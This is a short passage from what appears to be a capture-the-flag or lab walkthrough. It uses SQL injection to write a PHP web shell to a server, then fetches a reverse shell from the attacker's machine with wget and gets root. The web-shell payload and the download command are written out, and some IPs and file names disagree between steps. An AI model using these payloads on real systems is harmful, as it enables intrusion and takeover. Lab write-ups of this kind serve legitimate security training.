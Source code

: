 - We URL-encode the following command:

'union select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile '/srv/http/cmd.php'

- We add the URL-encoded syntax above and the "priority='' parameter to Burpsuite and send the request:
  
![](Images/Pasted%20image%2020221011104021.png)

- We navigate to "http://192.168.213.147:30455/cmd.php?cmd=", type "whoami" and confirm we can run OS commands:
  
![](Images/Pasted%20image%2020221011104107.png)

#sqlinjection

- On our Kali machine, we save "/usr/share/webshells/php/php-reverse-shell.php" to a file called "rev1.php".

#php-reverse-shell-php

- We enter "http://192.168.228.147/cmd.php?cmd=wget http://[kali IP]:30455/rev1.php -o /srv/http/rev1.php"

- We setup a listener on port 30455 on our Kali machine. 

- We type "curl http://192.168.213.147:30455/rev2.php" on our Kali terminal and receive a root shell:
